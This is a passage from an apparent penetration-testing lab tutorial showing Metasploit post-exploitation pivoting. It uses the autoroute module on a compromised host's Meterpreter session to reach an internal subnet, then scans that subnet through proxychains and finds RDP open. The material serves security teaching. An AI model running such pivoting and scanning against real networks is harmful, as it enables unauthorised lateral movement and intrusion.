 ```bash
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```

It is also possible to add routes with autoroute by running autoroute from the Meterpreter session.

```bash
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
```

After adding the necessary route(s) we can use the `-p` option to list the active routes to make sure our configuration is applied as expected.
#### Listing Active Routes with AutoRoute

```bash
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
```
#### Testing Proxy & Routing Functionality

```bash
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn

ProxyChains-3.1 (http://proxychains.sf.net)
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-03 13:40 EST
Initiating Parallel DNS resolution of 1 host. at 13:40
Completed Parallel DNS resolution of 1 host. at 13:40, 0.12s elapsed
Initiating Connect Scan at 13:40
Scanning 172.16.5.19 [1 port]
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19 :3389-<><>-OK
Discovered open port 3389/tcp on 172.16.5.19
Completed Connect Scan at 13:40, 0.12s elapsed (1 total ports)
Nmap scan report for 172.16.5.19 
Host is up (0.12s latency).
```